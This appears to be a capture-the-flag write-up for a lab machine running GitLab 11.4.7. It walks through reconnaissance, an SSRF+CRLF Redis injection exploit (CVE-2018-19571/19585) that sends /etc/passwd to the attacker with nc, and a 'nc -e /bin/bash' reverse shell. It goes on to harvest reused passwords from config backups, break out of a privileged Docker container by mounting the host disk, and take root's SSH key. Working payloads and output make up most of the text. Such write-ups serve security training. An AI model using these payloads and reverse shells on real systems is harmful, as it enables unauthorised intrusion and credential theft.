





# 00 - Loot

Credentials

| Service | Username | Password               | Found at                                         |
| ------- | -------- | ---------------------- | ------------------------------------------------ |
| su      | root     | wW59U!ZKMbG9+*#h       | `/root_pass`                                     |
| ?       | ?        | YG65407Bjqvv9A0a8Tm_7w | `/opt/backup/gitlab.rb`                          |
| ?       | ?        | %%cHzhNC=k9yYN!T       | `/root/ready-channel/sites/default/settings.php` |

Valid usernames

```
dude
root
```

# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

Full scan, grab banner

```
→ root@kali «ready» «10.10.14.20» 
$ nmap -p- -sV --reason -oA nmap/10-initial-ready 10.10.10.220        
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-14 04:53 EDT
Nmap scan report for 10.10.10.220
Host is up, received echo-reply ttl 63 (0.18s latency).
Not shown: 65533 closed ports
Reason: 65533 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    syn-ack ttl 62 nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 503.44 seconds
```

Default script scan

```
→ root@kali «ready» «10.10.14.20» 
$ nmap -p22,5080 -sC -sV --reason -oA nmap/10-default-ready 10.10.10.220
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-14 05:17 EDT
Nmap scan report for 10.10.10.220
Host is up, received echo-reply ttl 63 (0.090s latency).

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    syn-ack ttl 62 nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.70 seconds
```

# 15 - Enumeration

## TCP 5080 - Website

Redirected to `http://10.10.10.220:5080/users/sign_in`

```bash
→ root@kali «~» «10.10.14.20» 
$ curl -sv http://10.10.10.220:5080
*   Trying 10.10.10.220:5080...
* TCP_NODELAY set
* Connected to 10.10.10.220 (10.10.10.220) port 5080 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.220:5080
> User-Agent: curl/7.66.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Server: nginx
< Date: Fri, 14 May 2021 09:19:03 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 104
< Connection: keep-alive
< Cache-Control: no-cache
< Location: http://10.10.10.220:5080/users/sign_in
< X-Content-Type-Options: nosniff
< X-Frame-Options: DENY
< X-Request-Id: 015fe4ec-90f6-4749-a215-e9e001cec72c
< X-Runtime: 0.012869
< X-Ua-Compatible: IE=edge
< X-Xss-Protection: 1; mode=block
< Strict-Transport-Security: max-age=31536000
< 
* Connection #0 to host 10.10.10.220 left intact
<html><body>You are being <a href="http://10.10.10.220:5080/users/sign_in">redirected</a>.</body></html>
```

A self-hosted GitLab.


No email validation on registering


### User enumeration via API


Raw data

```
[{"id":5,"name":"iamf","username":"iamf","state":"active","avatar_url":"https://www.gravatar.com/avatar/270cc374972aa08b2c05e9bb54371936?s=80\u0026d=identicon","web_url":"http://172.19.0.2/iamf"},{"id":4,"name":"Test","username":"test","state":"active","avatar_url":"https://www.gravatar.com/avatar/d38d4fb986cb92a9ba768bd5acd4d777?s=80\u0026d=identicon","web_url":"http://172.19.0.2/test"},{"id":3,"name":"abcdefg","username":"abc","state":"active","avatar_url":"https://www.gravatar.com/avatar/75b8abb6d2e2804084f5553f38cfe854?s=80\u0026d=identicon","web_url":"http://172.19.0.2/abc"},{"id":2,"name":"testing","username":"testing","state":"active","avatar_url":"https://www.gravatar.com/avatar/65fcd679f5d8aeef7c7b271341d5ff53?s=80\u0026d=identicon","web_url":"http://172.19.0.2/testing"},{"id":1,"name":"Administrator","username":"root","state":"active","avatar_url":"https://www.gravatar.com/avatar/e64c7d89f26bd1972efa854d13d7dd61?s=80\u0026d=identicon","web_url":"http://172.19.0.2/root"}]
```

GitLab version: 11.4.7


### Searchsploit

Exact match

```
→ root@kali «~» «10.10.14.20» 
$ searchsploit GitLab 11.4.7    
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                   | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1) | ruby/webapps/49257.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Relaxing the search.

```
→ root@kali «exploit» «10.10.14.20» 
$ searchsploit --colour GitLab
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalation         | ruby/webapps/40236.txt
GitLab 11.4.7 - RCE (Authenticated) (2)                     | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)   | ruby/webapps/49257.py
GitLab 12.9.0 - Arbitrary File Read                         | ruby/webapps/48431.txt
Gitlab 12.9.0 - Arbitrary File Read (Authenticated)         | ruby/webapps/49076.py
Gitlab 6.0 - Persistent Cross-Site Scripting                | php/webapps/30329.sh
Gitlab-shell - Code Execution (Metasploit)                  | linux/remote/34362.rb
Jenkins Gitlab Hook Plugin 1.4.2 - Reflected Cross-Site Scr | java/webapps/47927.txt
NPMJS gitlabhook 0.0.17 - 'repository' Remote Command Execu | json/webapps/47420.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```


# 20 - Foothold

## GitLab 11.4.7 RCE (CVE-2018-19571 + CVE-2018-19585)

### Exploit PoC

Reference from https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/.




SSRF payload to Redis server

```
http://[0:0:0:0:0:ffff:127.0.0.1]:6379/iamf/ssrf-test.git
```

SSRF+CRLF payload

```
 git://[0:0:0:0:0:ffff:127.0.0.1]:6379/iamf/
 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /etc/passwd | nc 10.10.14.20 9000\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec
 exec
/ssrf-test.git
```

Original HTTP request+ the payload

```http
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 778
Connection: close
Cookie: sidebar_collapsed=false; _gitlab_session=4426e39af6c1d3d4a4484a8a53f0bac9; event_filter=all
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=cbS9UXXZDmvTgBUhOTMxF%2FOSii%2FgetcSbM%2FNTT2dG6NllhoQsV8uvbDU65arU9dEOumftKI48ZaDBi6rnJbjOQ%3D%3D&project%5Bimport_url%5D= git://[0:0:0:0:0:ffff:127.0.0.1]:6379/iamf/
 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /etc/passwd | nc 10.10.14.20 9000\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec
 exec
/ssrf-test.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=SSRF+testt&project%5Bnamespace_id%5D=5&project%5Bpath%5D=ssrf-testt&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

`nc` listener

```
 root@kali «exploit» «10.10.14.20» 
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.220] 36612
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
dude:x:1000:1000::/home/dude:/bin/bash
```


### Weaponize - Reverse Shell

Change payload to send a shell using `nc -e`.

```
 git://[0:0:0:0:0:ffff:127.0.0.1]:6379/iamf/
 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.14.20 9000\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec
 exec
/ssrf-to-rce.git
```

`nc` listener:

```
→ root@kali «exploit» «10.10.14.20» 
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.220] 37306
id
uid=998(git) gid=998(git) groups=998(git)
hostname
gitlab.example.com
pwd   
/var/opt/gitlab/gitlab-rails/working
```

 

### Shell upgrade

```
which python3
/opt/gitlab/embedded/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ ^Z
[2]  + 2354 suspended  nc -nvlp 9000
→ root@kali «exploit» «10.10.14.20» 
$ stty raw -echo; fg
[2]  - 2354 continued  nc -nvlp 9000

git@gitlab:~/gitlab-rails/working$ 
git@gitlab:~/gitlab-rails/working$ export TERM=xterm
```

# 25 - Privilege Escalation

## Internal enumeration

listing root directory indicates it's a docker container.

```
git@gitlab:~$ ls -la /
total 104
drwxr-xr-x   1 root root 4096 Dec  1 12:41 .
drwxr-xr-x   1 root root 4096 Dec  1 12:41 ..
-rwxr-xr-x   1 root root    0 Dec  1 12:41 .dockerenv
-rw-r--r--   1 root root  185 Nov 20  2018 RELEASE
drwxr-xr-x   2 root root 4096 Nov 20  2018 assets
drwxr-xr-x   1 root root 4096 Dec  1 15:40 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x  13 root root 3760 May 14 04:52 dev
drwxr-xr-x   1 root root 4096 Dec  2 10:45 etc
drwxr-xr-x   1 root root 4096 Dec  2 10:45 home
drwxr-xr-x   1 root root 4096 Sep 13  2015 lib
drwxr-xr-x   2 root root 4096 Nov 13  2018 lib64
drwxr-xr-x   2 root root 4096 Nov 13  2018 media
drwxr-xr-x   1 root root 4096 May 14 09:02 mnt
drwxr-xr-x   1 root root 4096 Dec  1 16:23 opt
dr-xr-xr-x 428 root root    0 May 14 04:52 proc
drwx------   1 root root 4096 May 14 08:56 root
-rw-r--r--   1 root root   23 Jun 29  2020 root_pass
drwxr-xr-x   1 root root 4096 Dec 13 15:07 run
drwxr-xr-x   1 root root 4096 Nov 19  2018 sbin
drwxr-xr-x   2 root root 4096 Nov 13  2018 srv
dr-xr-xr-x  13 root root    0 May 14 04:52 sys
drwxrwxrwt   1 root root 4096 May 14 08:27 tmp
drwxr-xr-x   1 root root 4096 Nov 13  2018 usr
drwxr-xr-x   1 root root 4096 Nov 13  2018 var
```

Content of `root_pass`

```
git@gitlab:/opt/backup$ cat /root_pass 
YG65407Bjqvv9A0a8Tm_7w
```

User who have shells

```
git@gitlab:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
dude:x:1000:1000::/home/dude:/bin/bash
```

User flag.

```
git@gitlab:/home/dude$ ls -la
total 24
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 .
drwxr-xr-x 1 root root 4096 Dec  2 10:45 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:58 .bash_history -> /dev/null
-rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dude dude 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dude dude  655 May 16  2017 .profile
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt
git@gitlab:/home/dude$ cat user.txt 
e1e30b052b6ec0670698805d745e7682
```

### /opt/backup

```
git@gitlab:/opt/backup$ ls -l
total 100
-rw-r--r-- 1 root root   872 Dec  7 09:25 docker-compose.yml
-rw-r--r-- 1 root root 15092 Dec  1 16:23 gitlab-secrets.json
-rw-r--r-- 1 root root 79639 Dec  1 19:20 gitlab.rb
```

```
git@gitlab:/opt/backup$ grep -Ri "pass"
gitlab.rb:#### Email account password
gitlab.rb:# gitlab_rails['incoming_email_password'] = "[REDACTED]"
gitlab.rb:#     password: '_the_password_of_the_bind_user'
gitlab.rb:#     password: '_the_password_of_the_bind_user'
gitlab.rb:#   '/users/password',
gitlab.rb:#### Change the initial default admin password and shared runner registration tokens.
gitlab.rb:# gitlab_rails['initial_root_password'] = "password"
gitlab.rb:# gitlab_rails['db_password'] = nil
gitlab.rb:# gitlab_rails['redis_password'] = nil
gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
...<SNIP>...
```


```
git@gitlab:/opt/backup$ cat docker-compose.yml 
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true # ==> Potential privesc vector
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16
```

## Manual password spray - `su`

Password `wW59U!ZKMbG9+*#h` works on root user.

```
git@gitlab:/opt/gitlab$ su root
Password: 
root@gitlab:/opt/gitlab# id
uid=0(root) gid=0(root) groups=0(root)
```



## Docker Breakout

### Docker capabilities

References from: 

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#container-capabilities

Recall from the `docker-compose.yml ` file,

```
git@gitlab:/$ cat /opt/backup/docker-compose.yml 
...<SNIP>...
 privileged: true 
...<SNIP>...
```

it seems the container runs with privileged flag.

> The --privileged flag allows the container to have access to the host devices

Finding interesting capabilities:

- `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `DAC_READ_SEARCH`, `DAC_OVERRIDE`

```
root@gitlab:/opt/gitlab# capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin`,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```



`CAP_SYS_ADMIN` can mount/unmount filesystems.

The container can mount the root directory of the host.

### Mount Host Drive to Container

Look for host drive with `fdisk -l`

```
root@gitlab:~# fdisk -l
Disk /dev/loop0: 55.4 MiB, 58052608 bytes, 113384 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/loop1: 55.5 MiB, 58159104 bytes, 113592 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/loop2: 31.1 MiB, 32595968 bytes, 63664 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/loop3: 71.4 MiB, 74907648 bytes, 146304 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/loop4: 71.3 MiB, 74797056 bytes, 146088 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/loop5: 31.1 MiB, 32571392 bytes, 63616 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 32558524-85A4-4072-AA28-FA341BE86C2E

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem # Host drive.
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

`/dev/sda2` is the host drive.

Mount `/dev/sda2` to `/media/iamf`

```
root@gitlab:/media# mkdir iamf
root@gitlab:/media# mount /dev/sda2 /media/iamf
root@gitlab:/media# ls iamf/
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
```

```
root@gitlab:/media# ls -l iamf/root/.ssh/ 
total 12
-rw------- 1 root root  405 Dec  7 16:49 authorized_keys
-rw------- 1 root root 1675 Dec  7 16:49 id_rsa
-rw-r--r-- 1 root root  405 Dec  7 16:49 id_rsa.pub
```

## SSH as root

```
→ root@kali «ssh-key» «10.10.14.20» 
$ nano root_rsa  
→ root@kali «ssh-key» «10.10.14.20» 
$ chmod 600 root_rsa 
→ root@kali «ssh-key» «10.10.14.20» 
$ ssh -i root_rsa root@10.10.10.220
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

...<SNIP>..
  System load:                      0.05
  Usage of /:                       67.1% of 17.59GB
  Memory usage:                     84%
  Swap usage:                       4%
  Processes:                        434
  Users logged in:                  0
  IPv4 address for br-bcb73b090b3f: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.220
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:211

...<SNIP>..
Last login: Thu Feb 11 14:28:18 2021
root@ready:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ready:~# ls -l
total 16
drwxr-xr-x  3 root root 4096 Dec  1 12:41 docker-gitlab
drwxr-xr-x 10 root root 4096 Jul  9  2020 ready-channel
-r--------  1 root root   33 Jul  8  2020 root.txt
drwxr-xr-x  3 root root 4096 May 18  2020 snap
```

Root flag.

```
root@ready:~# cut -c-15 root.txt 
b7f98681505cd39
```




# 30 - Post Exploit 

### OS

```
root@ready:~/ready-channel# uname -a
Linux ready 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@ready:~/ready-channel# cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04 LTS"
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
